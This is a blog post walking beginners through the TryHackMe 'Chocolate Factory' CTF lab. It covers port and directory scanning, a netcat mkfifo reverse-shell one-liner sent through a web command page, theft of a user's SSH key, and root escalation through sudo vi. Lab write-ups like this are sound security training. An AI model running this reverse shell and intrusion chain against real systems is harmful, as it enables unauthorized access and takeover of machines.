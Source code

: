 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2021-02-03
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: cholocate.tryhackme/titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```

Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners. 
Let’s get started. Firstly Deploy the machine and wait a minute for getting the IP address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)


## Enumeration
 
     sudo nmap -sV -sC -v <ip>
    
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
The result looks like,<br />

  
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/init1.png)
   

There can see FTP running on port 21, ssh running on port 22, and webserver in port 80 Then try Open browser enter IP address default web server running in port 80 
  
  ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/init2.png)

I trying SQL injection but nothing changes, So Check the directories using the gobuster tool.

    gobuser dir -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  Try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
  Remember one thing disable ufw firewall before the listening netcat. <br />
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   Use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' 
      
   Then list out the file and read the file..
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   Read validate.php
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/validateuser.png)
   
   Change the user to charlie <br/>
   /home/charlie and list all files <br />
   Found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change the permission.
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/id_rsa.png) <br />
   
    chmod 600 filename 
    
   Login with ssh charlie user
    
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
  Read the user key <br />
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) 
   
 ## Privilege Escalation
 <br />
  Check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   Get root permission using vi.<br />
   Use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   Search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   Copy the command and paste into the terminal and hit enter <br />
   Now root user <br >
   Change charlie to root <br />
   
    su root
   
   
   List the files and run python file, enter the key 
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   DONE !!!
  
